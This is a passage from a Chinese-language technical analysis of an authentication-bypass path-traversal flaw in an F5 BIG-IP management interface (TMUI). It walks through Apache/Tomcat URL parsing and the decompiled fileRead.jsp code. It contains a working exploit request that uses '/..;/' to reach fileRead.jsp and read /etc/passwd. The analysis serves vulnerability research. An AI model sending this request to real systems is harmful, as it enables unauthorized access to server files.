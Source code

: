 在这里也许会有人问，此时的请求流程中不是使用了权限校验吗？而且使用的是getPathinfo()这种较为安全的方法来获取(其他的请求方法的安全性问题可以参考：https://xz.aliyun.com/t/7544，同时经过这里的表述也可以发现及时后端代码中使用较为安全的请求处理当服务器端配置不当依旧可能造成安全问题)，为什么会有问题呢？我们下面捋一下：  
- 恶意请求：  
  
https://server/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd  
  
- Apache解析：  
  
https://server/tmui/login.jsp  
/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd(重点关注前面一部分，且允许被访问，转至Tomcat)  
  
- Tomcat解析：  
  
https://server/tmui/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd(见到/..;/后向上层回溯一次，改变原先URL)  
  
- request.getPathInfo()：/tmui/login.jsp(获取原请求的中传递到Servlet的请求，在进行权限校验时对此路径的访问进行校验，login.jsp任意用户都可访问)  
  
上面的流程已经很清晰了，这里不再赘述，下面我们来看后端的代码是如何实现的，准确定位到相关的文件与请求处理函数~  
###### 后端代码处理处理  
  
文件读取  
  
漏洞文件：  
  
tmui1\WEB-INF\classes\org\apache\jsp\tmui\locallb\workspace\fileRead_jsp.class  
  
文件分析：在漏洞文件fileRead_jsp.java程序中，我们可以看到对于一次文件读取请求首先会获取filename，之后根据传入的文件名称调用WorkspaceUtils.readFile()函数来读取文件，之后输出读取的结果  
```
publicvoid _jspService(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
        HttpSession session = null;
        JspWriter out = null;
        JspWriter _jspx_out = null;
        PageContext _jspx_page_context = null;

try {
            response.setContentType("text/html");
            PageContext pageContext = _jspxFactory.getPageContext(this, request, response, (String)null, true, 8192, true);
            _jspx_page_context = pageContext;
            ServletContext application = pageContext.getServletContext();
            ServletConfig config = pageContext.getServletConfig();
            session = pageContext.getSession();
out = pageContext.getOut();
out.write("\n\n\n\n");
            String fileName = WebUtils.getProperty(request, "fileName");

try {
                JSONObject resultObject = WorkspaceUtils.readFile(fileName);
out.print(resultObject.toString());
            } catch (IOException var19) {
throw var19;
            }
        } catch (Throwable var20) {
if (!(var20 instanceof SkipPageException)) {
out = (JspWriter)_jspx_out;
if (_jspx_out != null && ((JspWriter)_jspx_out).getBufferSize() != 0) {
try {
if (response.isCommitted()) {
out.flush();
                        } else {
out.clearBuffer();
                        }
                    } catch (IOException var18) {
                    }
                }
```